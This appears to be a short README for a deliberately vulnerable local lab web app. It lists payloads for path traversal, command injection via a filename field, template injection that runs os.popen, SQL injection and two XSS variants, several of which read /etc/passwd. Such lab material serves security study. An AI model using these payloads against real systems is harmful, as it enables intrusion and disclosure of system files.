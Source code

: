 1. Path traversal:

Payload:

```bash
http://127.0.0.1:5000/image?filename=/etc/passwd
```

2. File non-sanitization:

Payload:

```bash
curl -X POST \
     -d "filename=dummy.pdf; cat /etc/passwd" \
     http://127.0.0.1:5000/run-script
```

3. SSTI:

Payload:

```bash
http://127.0.0.1:5000/render?content=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('cat%20/etc/passwd').read()%7D%7D
```

4. SQL injection

Payload

```bash
1=1--
```

5. Reflected XSS

Payload

```bash
http://127.0.0.1:5000/preview?input=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

6. DOM-based XSS

Payload

```bash
http://127.0.0.1:5000#<img src%3Dx onerror%3Dalert(1)>
```
